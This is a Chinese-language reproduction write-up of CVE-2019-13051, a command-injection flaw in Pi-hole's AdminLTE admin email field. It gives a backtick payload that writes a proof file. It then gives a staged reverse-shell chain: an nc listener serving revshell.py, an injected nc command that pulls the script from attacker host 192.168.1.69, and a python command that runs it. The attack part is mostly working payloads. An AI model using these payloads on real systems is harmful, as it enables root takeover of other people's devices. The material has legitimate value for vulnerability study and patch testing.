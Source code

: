 （CVE-2019-13051）Pi-Hole 远程代码执行漏洞
==========================================

一、漏洞简介
------------

通过描述的"AdminLTE"组件上的漏洞，可以远程获得RaspberyPi设备（或应用程序正在运行的任何设备/VM）上的根访问权限。要利用此漏洞，需要对AdminLTE
web界面的管理访问权限凭据。

二、漏洞影响
------------

Pi-Hole \< 4.3.2

三、复现过程
------------

在管理员邮箱处添加

    "`test>/tmp/poc_proof.txt`"@0-sec.org

![1.png](resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId24.png)

由于该系统设定原因，需等待十分钟后，即可发现`/tmp/poc_proof.txt`
已经被创建

![2.jpg](resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId25.jpg)

### 深入利用

现在攻击机上执行反弹shell命令

    nc -nvlp 4444 < revshell.py

在管理邮箱处执行反弹shell代码

    "`nc${IFS}192.168.1.69${IFS}4444>/tmp/revshell.py`"@0-sec.org

![3.png](resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId27.png)

我们可以看到http请求如下所示

![4.png](resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId28.png)

随后等待十分钟，查看是否执行成功

在确保执行成功后，继续执行nc反弹shell命令

    nc -nvlp 4445

最后，再向网站执行反弹shell命令

    “`python${IFS}/tmp/revshell.py`”@0-sec.org

等待十分钟后，查看回显结果

![5.jpg](resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId29.jpg)
